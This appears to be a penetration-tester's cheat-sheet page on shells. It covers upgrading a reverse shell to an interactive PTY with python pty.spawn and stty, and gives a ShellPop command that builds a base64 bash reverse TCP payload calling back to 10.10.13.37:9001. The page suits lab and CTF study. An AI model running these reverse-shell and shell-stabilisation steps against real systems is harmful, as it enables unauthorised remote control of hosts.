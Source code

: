 # Shells




## Upgrade to PTY

* [https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312](https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312)
* [https://xakep.ru/2019/07/16/mischief/#toc05.1](https://xakep.ru/2019/07/16/mischief/#toc05.1)
* [https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/](https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/)

```bash
 # Spawn PTY
$ if python3 -V > /dev/null 2>&1; then
  python3 -c 'import pty; pty.spawn("/bin/bash")'
elif python -V > /dev/null 2>&1; then
  python -c 'import pty; pty.spawn("/bin/bash")'
fi
Or
$ script -q /dev/null /bin/bash

 # Background remote shell
user@remote:~$ ^Z

 # Get rows and cols from local terminal
root@kali:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'

 # Disable local output in terminal
root@kali:~$ stty raw -echo; fg

 # (optional) Reset remote terminal
user@remote:~$ reset

 # Set rows and columns for proper text aligning
user@remote:~$ stty rows ${ROWS} cols ${COLS}

 # For CTRL-L to work
user@remote:~$ export TERM=xterm / xterm-color / xterm-256color

 # (optional) Get Bash new process image
user@remote:~$ exec /bin/bash [-l]
```




## Tools

* [http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)


### ShellPop

* [https://github.com/0x00-0x00/ShellPop](https://github.com/0x00-0x00/ShellPop)

Bash reverse TCP example:

```
$ shellpop -H 10.10.13.37 -P 9001 --reverse --number 8 --base64
```



### pwncat

* [https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/](https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/)
* [https://github.com/cytopia/pwncat](https://github.com/cytopia/pwncat)
